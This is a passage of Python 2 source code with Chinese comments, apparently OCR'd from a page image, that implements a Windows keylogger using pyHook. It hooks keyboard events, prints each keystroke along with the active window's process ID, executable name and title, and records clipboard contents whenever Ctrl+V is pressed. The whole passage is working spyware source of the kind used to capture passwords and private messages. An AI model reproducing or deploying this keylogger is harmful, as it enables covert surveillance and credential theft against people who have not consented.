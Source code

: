 ```

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    print 
    print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    print 

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii > 32 and event.Ascii <127:
        print chr(event.Ascii),
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print "[PASTE]-%s" % (pasted_value),
        else:
            print "[%s]" % event.Key,
    # 循环监听下一个击键事件
    return True

# 创建并注册hook管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke

# 注册hook并执行
kl.HookKeyboard()
pythoncom.PumpMessages()

```
